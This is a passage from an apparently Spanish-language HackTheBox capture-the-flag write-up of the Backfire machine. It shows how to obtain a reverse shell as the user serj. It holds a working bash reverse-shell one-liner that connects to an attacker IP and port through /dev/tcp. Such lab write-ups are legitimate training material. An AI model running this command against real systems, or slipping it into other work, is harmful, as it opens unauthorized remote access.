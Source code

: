 Aquí vamos a crear una shell reversa a nuestra maquina para poder trabajar con el usuario serj.

```bash
nohup /bin/bash -i >& /dev/tcp/10.10.16.71/9000 0>&1 &
```

> **Nota**: Recuerda habilitar el puerto de escucha en tu máquina linux.
{: .prompt-info }

[![SHELL](/assets/img/writeups/hackthebox/backfire-hackthebox/revshell_serj.png)](/assets/img/writeups/hackthebox/backfire-hackthebox/revshell_serj.png)

Ahora seguimos el mismo proceso que para crear la clave ssh de ilya pero para serj.
